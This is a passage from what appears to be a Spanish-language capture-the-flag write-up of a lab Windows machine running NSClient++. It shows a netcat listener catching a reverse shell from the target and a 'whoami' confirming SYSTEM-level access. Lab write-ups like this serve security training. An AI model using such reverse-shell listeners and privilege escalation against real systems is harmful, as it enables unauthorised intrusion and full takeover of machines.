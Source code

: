```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.184] 50275
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\Program Files\NSClient++>
```

Y ya obtenemos acceso a la máquina como el usuario `nt authority\system`.
